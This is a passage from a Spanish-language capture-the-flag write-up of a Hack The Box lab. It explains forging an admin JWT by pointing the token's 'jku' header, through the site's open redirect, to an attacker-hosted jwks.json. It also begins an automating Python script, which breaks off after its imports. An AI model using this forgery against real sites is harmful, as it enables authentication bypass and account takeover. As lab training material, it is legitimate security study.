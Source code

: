 ![JWT](jwt_definition.png){: .shadow }

Ahora que ya tenemos una idea procedemos a decodear la cookie para ver mas información, usamos una página muy útil: [https://jwt.io](https://jwt.io)

![JWT\_IO](jwt_io.png){: .shadow }

Observamos en el campo `jku` un enlace al archivo `jwks.json`, primero averiguamos de que va para luego saber que vamos a encontrar:

![JWT\_jku](jwt_jku_definition.png){: .shadow }

Para ver el archivo necesitamos aplicar **Virtual hosting** agregando nombre de dominio **hackmedia.htb** a nuestro archivo _/etc/hosts_: `echo "10.10.11.126 hackmedia.htb" >> /etc/hosts`

Una vez dentro observamos el contenido:

![JWT\_json](jwt_json.png){: .shadow }

Sabiendo todo esto, tendriamos una brecha para poder conseguir una `cookie de sessión` pero como `admin`.

## Foothold

* * *

El ataque consiste en crear token para logearnos como usuarios `admin`, para ello debemos hacer lo siguiente:

1. Generamos un par de llaves para firmar nuestro token `keypair.pem`
2. Descargamos el archivo `http://hackmedia/static/jwks.json`
3. Extraemos de `keypair.pem` las llaves para validación y las asignamos al archivo `jwks.json`
4. Generamos nuestro token con los campos correspondientes. Y un paso importante, usamos la redirección que tiene la página `href="/redirect/?url=google.com"`
5. Reemplazamos en el campo `jku` para que apunte a nuestro archivo `jwks.json` y valide el token
6. Abrimos un servicio por un puerto para que pueda leerse el archivo `jwks.json`
7. Asignamos la cookie a la página web, actualizamos, recibimos la peticioń en nuestro servicio en escucha y ya somos `admin`

Para agilizar el proceso hize un script en `python` el cúal pasando los parámetros **IP-ATACANTE, PUERTO, COOKIE, IP-VÍCTIMA** logra generarte el token del usuario `admin`, abrirte un servicio en el puerto especificado, para luego asignar la cookie a la web, actualizar y listo:

```python
#!/usr/bin/python3

import os
import sys
import subprocess
import requests
import pdb
import json
import jwt as jwt_header
from jwcrypto import jwk as jwk_crypt, jwt as jwt_crypt
import time
from termcolor import cprint
import signal

#ctrl+c
def handler(signum, frame):
    remove_files()
    printRed("\n[-] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, handler)

#JWK packages
```